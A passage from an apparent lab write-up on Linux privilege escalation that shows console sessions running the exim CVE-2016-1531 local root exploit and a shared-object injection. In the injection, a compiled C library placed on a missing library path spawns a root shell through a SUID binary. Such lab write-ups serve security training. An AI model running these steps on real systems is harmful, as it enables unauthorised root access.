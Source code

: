 ```console
-bash: /home/user/tools/suid/exim/cve-2016-1531.sh.: No such file or directory
user@debian:~$ /home/user/tools/suid/exim/cve-2016-1531.sh
[ CVE-2016-1531 local root exploit
sh-4.1# whoami
root
```

# [Task 12] SUID / SGID Executables - Shared Object Injection

```console
user@debian:~$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)                                             
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)                                             
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)                                             
open("/etc/ld.so.cache", O_RDONLY)      = 3                   
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)                                             
open("/lib/libdl.so.2", O_RDONLY)       = 3                   
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)                                             
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3                 
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)                                             
open("/lib/libm.so.6", O_RDONLY)        = 3                   
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)                                             
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3                   
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)                                             
open("/lib/libc.so.6", O_RDONLY)        = 3                   
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)  
```
so the plan is inject a share file that have will execute ```/bin/bash -p``` and put it in those directory that we have permission to. the script is looks like this:
```console
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```
We dont have permission to put anython in ```/etc``` so the last chance is ```/home/user/.config/libcalc.so```
```console
user@debian:~$ mkdir /home/user/.config # create directory
user@debian:~$ gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c # complie the exploit
user@debian:~$ /usr/local/bin/suid-so # exceute souid-so
Calculating something, please wait...
bash-4.1# whoami
root
```
#  [Task 13] SUID / SGID Executables - Environment Variables 